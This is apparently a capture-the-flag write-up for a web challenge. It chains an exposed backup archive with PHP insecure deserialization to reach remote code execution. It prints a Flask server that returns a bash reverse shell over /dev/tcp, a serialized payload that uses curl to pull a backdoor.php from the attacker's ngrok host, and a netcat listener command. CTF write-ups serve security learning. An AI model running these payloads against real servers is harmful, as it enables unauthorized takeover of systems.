 # Name: Web: Exotic Attacks: Handy Tool

## Vulnerability

LFI + PHP Object Injection / PHP Insecure Object Deserialization + RCE

## Exploit

The exploit involves opening a reverse shell. You'll need to:
1. Create an account on [ngrok](https://ngrok.com/) (also confirm your email address).
2. Install `ngrok` on you machine.
3. Forward your 1234 port using: `ngrok tcp 1234`. A ngrok host and IP will be forwarded to your local port.

The instructions are also available [here](https://securiumsolutions.com/blog/reverse-shell-using-tcp/). Don't close the `ngrok` terminal until we are done.

Now coming back to the challenge.
First, use the **Guess my last name** option.
As in the Romanian cartoon, the correct answer is **Iscusitul**.
After you input it, the server echoes `backup.zip`.

This is the name of an archive left in the server containing a relevant piece of source code.
Access it at `/backup.zip` and decompress it.

The other tools in the web page really do what they say: uppercase the input, unserialize it or trim the whitespace.
You guessed it, the handy one is **Unserialize**.

After inspecting the source code in the archive, you see what the serialized input object should look like.
It has to be a PHP class with two attributes:
 * `$condition` - boolean with the value `true`
 * `$prop` - a string you can use for remote code execution on the server

Since the actual output of the command is not shown, only the unserialized string, you should try to create a reverse shell.

I started a Flask app on my internal port where, if accessed, I return a piece of PHP code that spawns a reverse shell to my machine.
Make sure to update the ngrok host and port.
You can run the server with: `python app.py`:

```python
from flask import Flask, make_response

app = Flask(__name__)

NGROK_HOST = ""  # TODO: ngrok host
NGROK_PORT = 0 # TODO: ngrok port
INTERNAL_PORT = 1234

@app.route("/", methods=['GET'])
def index():
    code = '''<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/%s/%d 0>&1'");''' % (NGROK_HOST, NGROK_PORT)

    return make_response(code)


if __name__ == "__main__":
    app.run(host="0.0.0.0", debug=True, port=INTERNAL_PORT)
```

I created a PHP class with a command that performs a request to my server and saves the output to `backdoor.php`.
I created the serialized input.
Make sure to update the ngrok host and port.

```php
<?php
    $NGROK_HOST = ""; // TODO: ngrok host
    $NGROK_PORT = 0; // TODO: ngrok port

    class PHPClass
    {
        public $condition = true;
        public $prop = "system('curl http://".$NGROK_HOST.":".$NGROK_PORT" -o backdoor.php');";
    }

    echo urlencode(serialize(new PHPClass));
?>
```

You can run this file in command line with: `php payload.php`.
The serialized payload is:

`O:8:"PHPClass":2:{s:9:"condition";b:1;s:4:"prop";s:54:"system('curl http://<ngrok host>:<ngrok port> -o backdoor.php');";}`

After you input it on the server, the file `/backdoor.php` is created and you can access it.

In the meantime, the Flask server on your machine won't support this reverse shell.
You need to close it and open a simple netcat connection to your internal port before you access the backdoor:

`nc -nlvk 1234`
